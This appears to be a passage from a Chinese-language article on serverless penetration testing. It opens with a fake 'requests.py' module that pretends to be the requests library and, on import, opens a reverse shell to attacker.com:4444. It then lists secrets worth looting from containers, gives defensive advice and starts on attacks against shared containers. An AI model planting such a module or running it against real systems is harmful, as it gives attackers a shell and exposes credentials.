 \# 恶意requests.py文件内容
import os
import socket
import subprocess

\# 反弹shell代码
def reverse\_shell():
    s\=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM)
    s.connect(("attacker.com",4444))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    p\=subprocess.call(\["/bin/sh","-i"\])

\# 当被导入时执行
reverse\_shell()

\# 伪装成正常requests模块
class Session:
    def \_\_init\_\_(self):
        pass
    def get(self, url):
        pass

不过值得注意的是，因为 serverless 的生命周期一般极为有限，所以此时获取的 shell 可能会在短时间结束，触发新一轮的反弹 shell，且 Servless 容器环境内的信息相对单一和简便。所以容器环境里值得我们探索和翻找的地方也不多，一般需要关注：

1.  新的代码
    
2.  代码内部配置
    
3.  环境变量
    
4.  秘钥、证书、密码信息等
    

不同的 serverless 架构实现对于存储和传递相应信息的方式各有不同。

**防御建议**：

-   使用安全的文件清理方法，避免使用shell命令
-   在不同shell环境(sh、bash、zsh等)中测试文件清理逻辑
-   为每个用户请求使用全新的容器环境
-   实施沙箱隔离，限制用户代码的权限
-   监控异常文件操作和进程行为

10.2. 攻击公用容器 / 镜像
-----------------

现在我们知道了，很多 Serverless 的用户代码都跑在一个个容器内。不同应用的代码运行于不同的容器之上，依靠容器原本的能力进行资源回收和隔离。由于 Serverless 应用的代码会进行相应的结构化解耦，且每个应用容器的底层环境相对来说是一致的。所以其实，根据应用漏洞获取更多应用类 Serverless 容器不仅困难而且在内网渗透中作用相对较为有限，能做的事情也相对较少。

但其实在不同的 Serverless 架构中，都有多类持久化且公用的容器以实现程序调度、代码预编译、代码下载运行等逻辑。

这类容器一般拥有获取所有用户代码、配置和环境变量的能力，同时也比较容易出现 Docker IN Docker 或大权限 Service Account 的设计。

如何控制这类型的容器呢？以下是我们在攻防过程中遇到的场景：

1.  在下载源代码时，使用 git clone 进行命令拼接，导致存在命令注入；
